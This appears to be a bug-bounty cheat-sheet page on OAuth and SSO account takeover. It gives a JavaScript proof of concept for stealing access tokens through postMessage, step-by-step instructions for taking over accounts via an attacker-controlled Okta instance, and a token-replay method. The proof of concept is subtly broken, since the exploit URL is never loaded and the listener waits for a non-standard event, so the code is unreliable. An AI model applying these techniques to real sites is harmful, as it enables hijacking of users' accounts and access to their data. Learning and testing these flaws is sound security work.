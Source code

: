{% embed url="https://hackerone.com/reports/46485" %}

{% embed url="https://infosecwriteups.com/oauth-misconfiguration-leads-to-full-account-takeover-22b032cb6732?source=---------1----------------------------" %}

### Exploit Post Messages

> Try To Use Whitelist Subdomain With Endpoint Contains postMessage(Msg,"\*"); In which Msg = window.location.href.split("#")\[1]; To Steal The Access Token

```http
1 - search About :-
var Msg = window.location.href.split("#")[1];
window.parent.postMessage(Msg,"*");
2 - There Isn't :-
X-Frame-Options Header
3 - Use This POC :-
var exploit_url = 'https://company.com/oauth?client_id=id&redirect_uri=
https://sub.company.com/postMsg.js';
var i = document.createElement('iframe');
document.body.appendChild(i);
window.addEventListener('oauth', function(Token) {alert(Token.data.name);
}, !1);
```

{% embed url="https://www.amolbaikar.com/facebook-oauth-framework-vulnerability/" %}

{% embed url="https://hackerone.com/reports/821896" %}

***

### ATO Using OKTA SSO Misconfiguration

* Suppose `victim@gmail.com` is a member of `VictimOrganization` on _target.com_.
* The attacker creates `AttackerOrganization` on _target.com_ and invites _`victim@gmail.com`_ as a member
* The attacker then sets up Okta and links it with their `AttackerOrganization`
* In their Okta instance, the attacker creates a user account with the email `victim@gmail.com`&#x20;
* Using this fake(attacker) Okta account linked to `victim@gmail.com`, the attacker logs into _target.com_ as `victim@gmail.com`&#x20;
* Since `victim@gmail.com` is also a member of `VictimOrganization` , the attacker is able to switch organizations within _target.com_, gaining unauthorized access to sensitive data and functionality.

{% embed url="https://rikeshbaniya.medium.com/account-takeover-using-sso-logins-fa35f28a358b" %}

***

### **Token Reuse Attack**

{% embed url="https://salt.security/blog/oh-auth-abusing-oauth-to-take-over-millions-of-accounts" %}

1. **Find a target that supports social login**\
   Example: “Login with Google” or “Login with Facebook”.
2. **Get a valid OAuth access token** from the provider (e.g., Google)
   * Do this by signing into _any_ other app that also uses the same OAuth provider.
   * Save the token (you can catch it in Burp/ZAP or browser devtools).
3. **Replay that token against the target**
   * Instead of letting Target.com fetch its own token, intercept the login request.
   * Replace the token in the request with the one from another app.
4. **Check the response**
   * If the target accepts the token and logs you in → it’s vulnerable.
   * If it rejects it with “invalid token” → it’s safe.
